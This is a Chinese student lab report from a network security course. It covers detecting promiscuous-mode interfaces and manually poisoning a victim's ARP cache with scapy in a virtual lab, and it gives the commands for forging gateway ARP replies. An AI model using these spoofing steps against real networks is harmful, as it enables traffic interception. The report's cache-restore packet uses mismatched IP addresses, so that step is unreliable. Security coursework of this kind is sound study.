 ## 网络安全第四章实验报告

###### 

### 检测局域网中的异常终端

### 网络拓扑结构

网关 172.16.111.1

![1631673160191](1631673160191.png)

 攻击者主机  kali-attacker 172.16.111.111

![1631673303058](1631673303058.png)

 目标靶机  victim-kali-1 172.16.111.112

![1631673452583](1631673452583.png)

实验准备

   在攻击者主机安装scapy 

```
pip3 install scapy[complete]
```

![1631673614750](1631673614750.png)

### 实验一 检测局域网中的异常终端

 在受害者主机上检查网卡的「混杂模式」是否启用 

ip link show eth0

开启root权限；

先在攻击者主机上开启 scapy 。

 然后输入以下代码回车执行 

```
pkt = promiscping("172.16.111.112") 
```

![1631676399702](1631676399702.png)



回到受害者主机上开启网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```

 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异 

![1631676464375](1631676464375.png)

发现多了一行

然后在受害者主机上关闭 混杂模式

### 手工单步毒化目标主机的 ARP 缓存

###### 获取当前局域网的网关 MAC 地址

构造一个 ARP 请求

arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

 查看构造好的 ARP 请求报文详情

```
arpbroadcast.show()
```

![1633917492928](1633917492928.png)

发送这个 ARP 广播请求

```
recved = srp(arpbroadcast, timeout=2)
```

![1633917522875](1633917522875.png)

网关 MAC 地址

```
gw_mac = recved[0][0][1].hwsrc
```

![1633919983069](1633919983069.png)

###### 伪造网关的 ARP 响应包发送给受害者主机

ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst= "08:00:27:0e:34:8d")
```

发送上述伪造的 ARP 响应数据包到受害者主机

```
sendp(arpspoofed)
```

###### 在受害者主机上查看 ARP 缓存

![1633920116845](1633920116845.png)

恢复受害者主机的 ARP 缓存记录

伪装网关给受害者发送 ARP 响应

```
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.111", hwsrc="08:00:27:a6:e8:f6", pdst="172.16.111.108", hwdst="08:00:27:0e:34:8d")
```

![1633920136569](1633920136569.png)

###### 在受害者主机上“刷新”网关 ARP 记录

在受害者主机上ping网关

```
ping 172.16.111.1
```

 再次查看ARP缓存

```
ip neigh
```

![1633920436200](1633920436200.png)

参考资料

https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html

 [CUCCS/2020-ns-public-Annna777 at chap0x04 (github.com)](https://github.com/CUCCS/2020-ns-public-Annna777/tree/chap0x04) 

